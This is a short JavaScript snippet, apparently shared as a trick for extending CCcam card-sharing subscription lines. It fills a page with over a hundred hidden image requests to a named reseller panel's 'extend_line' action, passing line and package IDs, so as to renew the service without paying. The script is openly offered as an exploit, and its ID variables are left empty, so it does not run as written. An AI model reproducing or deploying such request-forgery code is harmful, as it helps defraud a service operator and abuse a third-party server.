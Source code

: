 # CCCAM CLINE ENTEND EXPIRE DATE
var pl = 'http://hsm4k.skypk.net/userpanel/official.php';

//how many time extand line for free
var ex = 118;

// line id
var lid = ;

//package id
var packid = ;


if (ex > 350)
{
    alert("null")
}
else
{
    var html = "";
    for (i = 0; i < ex; i++)
    {
        var ran = Math.random();
        html += '<img src="' + pl + '?action=extend_line&line_id=' + lid + '&package_id=' + packid + '&r=' + ran + '"/>';
    }

    document.body.innerHTML = html;

}
